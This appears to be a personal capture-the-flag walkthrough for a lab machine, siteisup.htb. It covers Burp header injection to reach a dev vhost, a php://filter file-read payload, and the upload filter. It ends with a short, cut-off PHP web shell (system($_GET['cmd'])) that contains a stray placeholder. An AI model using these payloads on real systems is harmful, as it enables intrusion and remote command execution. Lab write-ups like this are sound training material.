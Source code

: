 Try prepending `dev.siteisup.htb` to guess the vhost. with the added header of `Special-Dev: only4dev` in Burp repeater.

![[Pasted image 20250421214038.png]]

In Burpsuite, go to "Proxy" tab. Click on "Options" tab. 

Click add on "Match and Replace" tab. 

Specify these options

![[Pasted image 20250422195533.png]]

Now anything that goes through Burp will add this header. 

![[Pasted image 20250422195827.png]]

Now navigating to dev.siteisup.htb should bring up a new web page with the ability to upload files. 

![[Pasted image 20250422200411.png]]

Sending a burp request like 

```
GET /?page=php://filter/convert.base64-encode/resource=index
```

![[Pasted image 20250422200649.png]]

This returns a base64 string

![[Pasted image 20250422200724.png]]

Decode this base64 string using 

```
echo -n '<PASTE BASE64 STRING>' | base64 -d
```

This is just the source code that we already have. 


php is being appended in the source code 

![[Pasted image 20250423211717.png]]
which makes it tough because checker.php is filtering out a bunch of files we can't upload
![[Pasted image 20250423211838.png]]
getExtension function is going to get the very last thing after the last period
![[Pasted image 20250423212048.png]]

So we can only upload file extensions that won't get RCE.

Confirming this...

Create a file called `test.php` with

```
<?php
system($_GET['cmd']);
<KALI IP ADDRESS>
?
```
